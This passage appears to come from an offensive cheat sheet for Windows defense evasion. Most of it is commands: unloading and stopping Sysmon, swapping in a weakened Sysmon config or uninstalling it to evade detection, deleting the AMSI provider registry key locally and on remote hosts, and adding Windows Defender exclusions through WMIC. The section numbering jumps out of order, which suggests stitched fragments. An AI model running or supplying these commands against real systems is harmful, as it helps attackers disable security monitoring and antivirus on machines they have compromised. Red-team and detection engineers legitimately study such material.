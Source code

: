 ```
C:\> fltmc

C:\> fltmc unload SysmonDrv
```

Disable Sysmon service.

```
C:\> sc stop Sysmon64
```

Change configuration for sysmon to make it useless or reduce the ruleset to evade detection.

```
C:\> Sysmon64.exe -c sysmonconfig-export.xml
```

Change to default settings.

```
C:\> Sysmon64.exe -c --
```

#### 4.1.2 - Uninstall

Note: You must have administrative privileges

```
C:\> Sysmon64.exe -u
```

## 05 - Disable AMSI

### 5.1 - Powershell

```
PS C:\> Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse

PS C:\> icm -computername <IP> -scriptblock {Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse -Force}
```

## 1.2 - WMIC

### 1.2.1 - Add Exclusions

#### 1.2.1.1 - Command Prompt

Adding Windows Defender path exclusions with WMIC

```
C:\> wmic /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"

C:\> wmic /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"\Temp\\"

C:\> wmic /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\".dll\"

C:\> wmic /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"rundll32.exe\"
```
